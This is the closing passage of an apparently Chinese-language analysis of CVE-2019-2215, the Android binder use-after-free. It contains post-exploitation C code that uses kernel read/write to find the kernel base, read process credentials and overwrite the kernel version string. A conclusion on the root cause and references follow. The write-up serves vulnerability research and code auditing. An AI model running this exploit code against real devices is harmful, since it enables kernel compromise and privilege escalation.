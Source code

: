 ```cpp
  setbuf(stdout, NULL);
  printf("should have stable kernel R/W now\n");

  /* in case you want to do stuff with the creds, to show that you can get them: */
  unsigned long current_mm = kernel_read_ulong(current_ptr + OFFSET__task_struct__mm);
  printf("current->mm == 0x%lx\n", current_mm);
  unsigned long current_user_ns = kernel_read_ulong(current_mm + OFFSET__mm_struct__user_ns);
  printf("current->mm->user_ns == 0x%lx\n", current_user_ns);
  unsigned long kernel_base = current_user_ns - SYMBOL__init_user_ns;
  printf("kernel base is 0x%lx\n", kernel_base);
  if (kernel_base & 0xfffUL) errx(1, "bad kernel base (not 0x...000)");
  unsigned long init_task = kernel_base + SYMBOL__init_task;
  printf("&init_task == 0x%lx\n", init_task);
  unsigned long init_task_cred = kernel_read_ulong(init_task + OFFSET__task_struct__cred);
  printf("init_task.cred == 0x%lx\n", init_task_cred);
  unsigned long my_cred = kernel_read_ulong(current_ptr + OFFSET__task_struct__cred);
  printf("current->cred == 0x%lx\n", my_cred);

  unsigned long init_uts_ns = kernel_base + SYMBOL__init_uts_ns;
  char new_uts_version[] = "EXPLOITED KERNEL";
  kernel_write(init_uts_ns + OFFSET__uts_namespace__name__version, new_uts_version, sizeof(new_uts_version));
}
```

## 3. Conclusion

CVE-2019-2215的问题在于binder这类提供通过设备文件访问其功能的内核驱动没有处理好其销毁过程中和epoll联动部分\(同步销毁其在epoll中可能存在的引用\)。针对此类问题，可以尝试扩展到其他类似的驱动模块上进行代码审计，审计点在于check是否同样存在没有同步销毁其于epoll中的引用的问题。

## 4. Reference

+ https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
+ https://bugs.chromium.org/p/project-zero/issues/detail?id=1942
+ https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=414885
+ https://dayzerosec.com/posts/analyzing-androids-cve-2019-2215-dev-binder-uaf/
